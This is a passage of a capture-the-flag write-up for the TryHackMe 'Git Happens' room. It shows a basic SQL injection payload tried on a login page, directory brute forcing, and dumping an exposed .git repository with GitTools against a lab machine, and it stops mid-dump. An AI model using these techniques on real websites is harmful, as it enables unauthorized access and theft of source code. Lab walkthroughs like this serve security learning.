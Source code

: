 # Git Happens

[This room](https://tryhackme.com/room/githappens) is a really easy one on TryHackMe only you know a few important things about Git. Just like most of the people I am not much familiar with Git but do know how it works. This room let's you understand how you can work with Git in a safe way. So, lets begin!



### Enumeration

Once we deploy the machine, we can go and visit the IP address and see that a login page is located over there. The first thing that can come to our mind is SQL injection. So, we can try a few basic attack along with starting a directory bruteforce attack using any tool like GoBuster, Dirb etc. 

![login](./.images/githappens_login.png)

We can try simple SQLi attacks by passing values like `' or 1=1 --'` or passing `admin` in both username and password. But none of these work. Meanwhile, from the directory bruteforce attack we find that a `.git` directory has been discovered.

```

```

We can go and check the `/.git` path and see that an entire Git repository is present over there. 

![git_repo](./.images/git_repo.png)

Looking at the repository, the immediate thought that can come to our mind is to clone it and check the files present in it. This can be usually done using the command `git clone` as:

```
tester@kali:~/Downloads/gaming_server$ git clone http://10.10.111.93/.git
Cloning into '10.10.111.93'...
fatal: repository 'http://10.10.111.93/.git/' not found
```

But here, it says that the repository was not found. After some googling, we can find a tool named [GitTools](https://github.com/internetwache/GitTools) through which we can download the repository on our machine.

There are three tools in the GitTools repository which are Dumper, Extractor and Finder. Out of these three, we will be using dumper as we want to dump the entire repository on our local machine.

```
tester@kali:~/Downloads/git_happens$ cd GitTools/
tester@kali:~/Downloads/git_happens/GitTools$ ls
Dumper  Extractor  Finder  LICENSE.md  README.md
tester@kali:~/Downloads/git_happens/GitTools$ cd Dumper/
tester@kali:~/Downloads/git_happens/GitTools/Dumper$ ls
gitdumper.sh  README.md
tester@kali:~/Downloads/git_happens/GitTools/Dumper$ ./gitdumper.sh 
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] USAGE: http://target.tld/.git/ dest-dir [--git-dir=otherdir]
		--git-dir=otherdir		Change the git folder name. Default: .git
tester@kali:~/Downloads/git_happens/GitTools/Dumper$ ./gitdumper.sh http://10.10.111.93/.git/ ../../../
###########
```